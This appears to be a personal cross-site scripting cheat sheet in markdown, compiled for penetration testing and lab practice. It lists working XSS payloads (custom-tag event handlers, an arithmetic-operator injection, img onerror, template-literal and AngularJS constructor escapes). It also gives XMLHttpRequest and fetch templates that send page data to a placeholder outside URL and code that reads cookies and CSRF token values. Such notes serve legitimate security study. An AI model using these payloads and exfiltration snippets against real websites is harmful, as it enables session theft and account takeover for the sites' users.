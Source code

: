 # [XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Custom Tags
Sometimes we can inject custom tags into the page.
Ex: `<custom-tag onmouseover='alert("xss")'>`
**Note: In this case not closing the custom tag with `</custom-tag>` succeeds, but if we close the tag
it fails.**

## Interesting Payloads
### Arithmetic Operators To Execute JS Functions
**Payload:** `http://'-alert(1)-'`
**Final Result:** `<a id="author" href="http://'-alert(1)-'" onclick="var tracker={track(){}};tracker.track('http://'-alert(1)-'');">name</a>`
**Explanation:**
Sometimes adding arithmetic operators around JS functions might execute the function.
JS evaluates the payload above like so: `('http://' - alert(1)) - ''`, `('http://' - alert(1))` evaluates to `NaN`, then `NaN - ''` evaluatesto `NaN` too, but since the `alert()` function was evaluated in the first expression, it is executed. This technique only works in the a context where JS code can be executed (not in HTML).

## XSS To Exfiltrate Data
Remember that these are XSS payloads and should be executed within `<script></script>` tags.
### Using `XMLHttpRequest()`
```javascript
// Only add event listener if the payload should be executed on page load
window.addEventListener("load", function() {
	var xhr = new XMLHttpRequest();
	xhr.open("<http-method>", "<target-url>");
	var data = "<data-to-send>"
	xhr.send(data)
});
```
### Using `fetch()`
```javascript
// Only add event listener if the payload should be executed on page load
window.addEventListener("load", function() {
	var data = new FormData();
	data.append("key", "value");

	fetch("<target-url>", {
		method: '<http-method>',
		mode: 'no-cors',
		body: data
	});
});
```

## DOM Based XSS
This is also known as client-side XSS as the process is entirely done on the client-side and the XSS payload never reaches the server.
We can know if we are facing DOM based XSS if the payload does not appear in the 'View page source' page but does appear in the 'Inspector' tab of the developer options.
### Functions (Sinks) That Could Cause DOM XSS
You can perform a quick search (Ctrl+F) for the following functions in the client-side code
- `document.write()`
- `document.writeln()`
- `document.domain`
- `.innerHTML()` (does not allow the use of `<script>` tags within it, try other payloads (e.g., `<img src=x onerror=alert(1)>`))
- `.outerHTML()`
#### Ajax Specific Functions
- `add()`
- `after()`
- `append()`
- `html()`
- `parseHTML()`
- `prepend()`
- `insertAfter()`
- `before()`
- `insertBefore()`
- `replaceAll()`
- `replaceWith()`

### Reflected XSS In Template Literals
When an input is reflected on the page and within the page's source code it is inside a JS template literal (string within \`\`) we can execute JS functions with payloads like the following `${alert()}`.

## XSS in AngularJS
### Checking If XSS is Possible
	{{ 1 + 1 }} (Should return 2)

### ng-app Directive
	{{ $on.constructor('alert(1)') () }}
	{{ $eval.constructor('alert(1)') () }}

## READ JS FILES IF POSSIBLE / RELEVANT
### Where Is The Content Being Rendered?
JavaScript files might be relevant if some content on the page is only rendered by executing JavaScript code.
One way to know is to view the page's source code on the browser and check whether some content that is rendered on the screen
is missing from the source code. If that is the case, then that content might be rendered by JavaScript and therefore reading JS files
could be relevant to finding an XSS attack.

### The Replace Function
When the `replace()` function is given a string as its first argument it only replaces the first occurence of that string.
Ex:
```javascript
myString = '<h1>hello</h1>'
myString.replace('<', '&lt;').replace('>', '&gt;') // myString = '&lt;hello&gt;'

myString = '<><h1>hello</h1>'
myString.replace('<', '&lt;').replace('>', '&gt;') // myString = '&lt;&gt;<h1>hello</h1>'
```
## Accessing Values With JavaScript
### Accessing Cookie Values
```javascript
var csrf = document.cookie // In case of one cookie only
var cookieArray = document.cookie.split("; ") // Gives an array of key=value pairs we can split each on the = sign
var csrfCookieArray = cookieArray[0].split('=') // Gives an array csrf = ["key", "value"]
var csrfValue = csrfCookieArray[1] // Gives the value of the CSRF token
```
### Accessing HTML Element Attribute Values
```javascript
// Get the value of the first element with name=csrf
var csrf = document.getElementsByName('csrf')[0].value // Notice the plural Elements with an s.

// Get the value of the element with id=csrf
var csrf = document.getElementById('csrf').value // Notice the singular Element without an s.
```

## Extra Tips
XSS Payloads can sometimes be executed in HTTP request headers such as `Cookie` or `User-Agent` headers.


## Extra Resources
**Note: Many of these payloads will not work because they are made for specific scenarios but they could be used as a last resort.**
- [PayloadBox XSS](https://github.com/payloadbox/xss-payload-list)
- [PayloadAllTheThings XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
